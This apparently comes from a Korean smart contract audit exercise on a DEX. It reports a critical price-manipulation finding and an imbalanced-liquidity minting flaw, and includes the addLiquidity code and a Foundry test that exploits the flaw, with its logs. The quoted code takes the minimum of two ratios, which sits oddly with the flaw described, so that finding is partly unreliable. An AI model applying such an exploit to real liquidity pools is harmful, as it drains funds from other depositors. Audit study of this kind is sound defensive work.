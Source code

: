 
### 파급력 
Critical한 취약점

풀에 있는 토큰의 가격을 조작하여 1:1 비율에서 벗어나게 한 다음 가격 불균형을 악용하여 이익을 얻을 수 있다. 그로 인해 전반적인 유동성 풀 자체가 깨지게 되기 떄문이다.


### 해결방안
실제 LPToken을 bun하는 기능과 transferFrom으로 rx,ry값을 transferFrom으로 사용자에게 반환해줘야 한다.



# imbalance한 유동성 공급 방식의 문제점 
# 임나라

### 설명 
토큰의 비율을 고려하지 않아, 유동성을 공급 할 때 공급하는 tokenX와 tokenY에서 tokenY의 값이 작아더라도 tokenX의 비율로 LP 토큰을 발행하기 때문에, 이를 악용해 이득을 얻을 수 있다.




 ```
 if(totalSupply_ ==0 ){ //if first supply 
        LPTokenAmount = _sqrt(tokenXAmount*tokenYAmount);
    }
    else{// calculate over the before
        liqX = _mul(tokenXAmount ,totalSupply_)/amountX;
        liqY = _mul(tokenYAmount ,totalSupply_)/amountY;
        LPTokenAmount = (liqX<liqY) ? liqX:liqY; 
    }
    require(LPTokenAmount >= minimumLPTokenAmount, "Less LP Token Supply");
    transfer_(msg.sender,LPTokenAmount);
    totalSupply_ += LPTokenAmount;
    amountX += tokenXAmount;
    amountY += tokenYAmount;
    tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
    tokenY.transferFrom(msg.sender, address(this), tokenYAmount);
```

```
function  testAddLiquidity12() external {
uint firstLPReturn = dex.addLiquidity(1000  ether, 1000  ether, 0);
emit  log_named_uint("firstLPReturn", firstLPReturn);
uint secondLPReturn = dex.addLiquidity(1000  ether, 1, 0);
emit  log_named_uint("secondLPReturn", secondLPReturn);
(uint  tx, uint ty) = dex.removeLiquidity(1000  ether, 0, 0);
emit  log_named_uint("tx", tx);
emit  log_named_uint("ty", ty);
}
[PASS] testAddLiquidity12() (gas: 215748)
Logs:
  firstLPReturn: 1000000000000000000000000
  secondLPReturn: 1000000000000000000000000
  tx: 1000000000000000000
  ty: 500000000000000000
```
